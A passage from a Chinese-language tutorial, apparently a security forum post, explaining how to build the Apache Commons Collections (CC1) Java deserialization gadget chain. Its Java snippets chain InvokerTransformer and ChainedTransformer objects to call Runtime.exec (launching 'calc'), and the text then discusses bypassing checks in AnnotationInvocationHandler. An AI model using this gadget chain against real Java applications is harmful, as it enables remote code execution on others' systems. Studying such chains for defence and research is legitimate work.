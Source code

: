 那第一个问题就解决了，那么接下来就是通过`InvokerTransformer`​的反射来吧这个反射重写一遍

```java
        Class r =  Runtime.class;
        Method m  = (Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(r);
        Runtime o = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}).transform(m);
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(o);
```

这样就写好了，但是可以发现这里是前一个接收的对象作为后一个transform方法的输入

‍

所以作者又找到了一个类 `ChainedTransformer`​

构造方法就是传一个`Transformer`​类的数组

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-4121e8e5d3758ab0ef3f42ebce09294215f4cf73.png)​

然后这个类的`transform`​方法就会进行一个链式调用

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-54d5029668e3299e2fd74c3fb4749cd7a1dcec6b.png)​

‍

那么我可以定义一个`Transformer`​的数组然后将`InvokerTransformer`​的发射链式调用写进去然后去触发其`transform`​方法即可

```java
        Class r =  Runtime.class;
        Transformer[] transformers = new Transformer[]{
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},
                new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})} ;

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        chainedTransformer.transform(r);
```

那么现在就剩下两个问题了

我们跟进去看如何去保证两个If语句都进入呢

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-693e49335e3a878c9a865f75f544b821f194c15e.png)​

首先第一个if是比较容易过的，因为他要去找`AnnotationInvocationHandler`​传进来的注解的成员变量，要存在并且map的key可以找到他的成员变量即可，所以做出以下修改

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-110e3fd1887ea9223ec4bfff0fdaebe259c28647.png)​

第二个if就直接过就行了，所以最后的问题就是这一句话

```java
memberValue.setValue(new AnnotationTypeMismatchExceptionProxy(value.getClass() + "[" + value + "]")
```
